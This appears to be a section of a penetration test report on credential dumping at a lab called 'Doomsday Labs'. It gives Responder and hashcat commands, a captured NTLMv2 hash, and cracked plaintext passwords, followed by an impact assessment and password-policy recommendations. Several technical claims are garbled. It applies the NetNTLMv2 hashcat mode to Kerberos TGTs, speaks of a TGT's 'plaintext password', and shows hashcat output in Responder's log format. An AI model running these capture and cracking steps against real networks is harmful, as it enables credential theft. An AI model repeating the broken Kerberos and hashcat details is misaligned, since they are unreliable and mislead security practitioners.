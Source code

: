 # Credential Dumping Findings

## Overview

This section covers the detailed methodology and findings from the credential dumping activities conducted during the penetration test at Doomsday Labs. We used advanced tools like Responder and Hashcat to capture and decrypt credentials from network traffic.

## Technical Details

### Methods
- **Using Responder to Capture Hashes**:
  - We set up Responder to listen on the network and intercept NTLM hash exchanges. Here’s the command used:
    ```
    sudo responder -I tun0 -A
    ```
  - Responder successfully captured the NTLMv2 hash for the user "DOOMSDAYLABS\filemaker".

- **Hash Cracking with Hashcat**:
  - The captured hash was then cracked using Hashcat with the rockyou.txt wordlist to extract the plaintext password. The command was:
    ```
    hashcat -m 5600 hashfile.txt -r rules.txt -o hashfile.out
    ```
  - **Hash Example**:
    ```
    [SMB] NTLMv2-SSP Client   : 10.100.1.3
    [SMB] NTLMv2-SSP Username : DOOMSDAYLABS\filemaker
    [SMB] NTLMv2-SSP Hash     : filemaker::DOOMSDAYLABS:322e0b51ca281c55:F1F9E4FF7872D084AC0E2CB11DE7D2C0:01010000000000008017EBA84C92D...
    ```
  - **Plaintext Password**: `Football24`

### Evidence
- **Logs and Outputs**:
  - Responder and Hashcat logs were crucial in documenting the successful capture and decryption of credentials. Screenshots of these logs are maintained as evidence of the process.
  - A typical entry from the Hashcat output showing the cracked password would look like this:
    ```
    [SMB] NTLMv2-SSP Hash Cracked: DOOMSDAYLABS\filemaker:Football24
    ```

### Additional Cracking Efforts
- **TGT Cracking**:
  - We also targeted the Kerberos TGTs using Hashcat. Below is the command and the TGT details involved:
    ```
    hashcat -m 5600 krbtgt_hash.txt -o cracked_tgt.txt
    ```
  - **Base64 TGT Example**:
    ```
    Base64: doIF0jCCBc6gAwIBBaEDAgEWooIEyzCCBMdhggTDMIIE...
    ```
  - **Plaintext TGT Password**: `Sunshine24`

## Impact Assessment

- **Potential Risks**:
  - **Unauthorized Access**: Exposed credentials, especially administrative ones, can lead to unauthorized access to critical systems and data breaches.
  - **Data Integrity Threats**: Attackers with stolen credentials can alter or delete sensitive data, undermining the integrity of business operations.
  - **Persistence and Lateral Movement**: Successfully cracked credentials allow attackers to maintain persistent access to the network and facilitate lateral movement across different systems.

## Recommendations

- **Strengthen Password Policies**:
  - Enforce the use of strong, complex passwords that are difficult to crack. Consider using passphrase guidelines that mix in numbers and symbols.
  - Update password requirements to include a minimum length of 12 characters.

- **Implement Regular Password Changes and Audits**:
  - Mandate password changes every 60 to 90 days to limit the window of opportunity for attackers using stolen credentials.
  - Conduct frequent security audits to ensure that all users adhere to the updated password policies and to identify any potential security gaps.

## Conclusion
The credential dumping efforts during the penetration test revealed significant vulnerabilities in Doomsday Labs' password security practices. Adopting stringent password policies and regular audits can significantly mitigate these security risks and protect against future breaches.
